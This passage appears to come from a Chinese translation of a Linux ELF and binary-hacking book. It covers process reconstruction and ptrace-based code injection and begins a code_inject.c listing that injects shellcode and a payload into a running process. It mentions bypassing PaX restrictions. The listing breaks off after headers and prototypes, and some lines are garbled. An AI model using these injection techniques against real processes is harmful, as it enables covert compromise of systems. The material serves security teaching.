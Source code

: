 ```sh
hacker@ELFWorkshop:~/
workshop/labs/exercise_9$ readelf -S
dumpme.out

```

有 7 个 section 头，从偏移量`0x1118`开始，如下所示:

![Process reconstruction with Quenya on a 32-bit test environment](../images/00005.jpeg)

昆雅流程重构的源代码主要位于`rebuild.c`，昆雅可以从我的网站[http://www.bitlackeys.org/](http://www.bitlackeys.org/)下载。

# 使用 ptrace 进行代码注入

到目前为止，我们已经检查了`ptrace`的一些有趣的用例，包括过程分析和过程图像重建。 `ptrace`的另一个常见用法是将新代码引入正在运行的进程并执行它。 攻击者通常会这样做，修改正在运行的程序，以便它做其他事情，比如将恶意共享库加载到进程地址空间中。

在 Linux 中，默认的`ptrace()`行为是这样的，它允许您将`Using PTRACE_POKETEXT`写入不可写的段，例如文本段。 这是因为调试器需要在代码中插入断点。 这对于那些想要将代码插入内存并执行它的黑客来说非常有用。 为了证明这一点，我们写了`code_inject.c`。 它连接到一个进程并注入一个 shell 代码，该代码将创建一个足够大的匿名内存映射来容纳我们的有效负载可执行文件`payload.c`，然后将其注入到新内存中并执行。

### 注意事项

正如本章前面提到的，用`PaX`打补丁的 Linux 内核将不允许`ptrace()`写入不可写的段。 这是为了进一步加强内存保护限制。 在文章*ELF 运行时感染经 GOT 中毒*中，我已经讨论了绕过这些限制的方法，通过操作`vsyscall`表与`ptrace`。

现在，让我们看一个代码示例，在这个示例中，我们将一个 shell 代码注入到一个正在运行的进程中，加载一个外部可执行文件:

```sh
To compile: gcc code_inject.c o code_inject
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>
#define PAGE_ALIGN(x) (x & ~(PAGE_SIZE 1))
#define PAGE_ALIGN_UP(x) (PAGE_ALIGN(x) + PAGE_SIZE)
#define WORD_ALIGN(x) ((x + 7) & ~7)
#define BASE_ADDRESS 0x00100000
typedef struct handle {
  Elf64_Ehdr *ehdr;
  Elf64_Phdr *phdr;
  Elf64_Shdr *shdr;
  uint8_t *mem;
  pid_t pid;
  uint8_t *shellcode;
  char *exec_path;
  uint64_t base;
  uint64_t stack;
  uint64_t entry;
  struct user_regs_struct pt_reg;
} handle_t;

static inline volatile void *
evil_mmap(void *, uint64_t, uint64_t, uint64_t, int64_t, uint64_t)
__attribute__((aligned(8),__always_inline__));
uint64_t injection_code(void *) __attribute__((aligned(8)));
```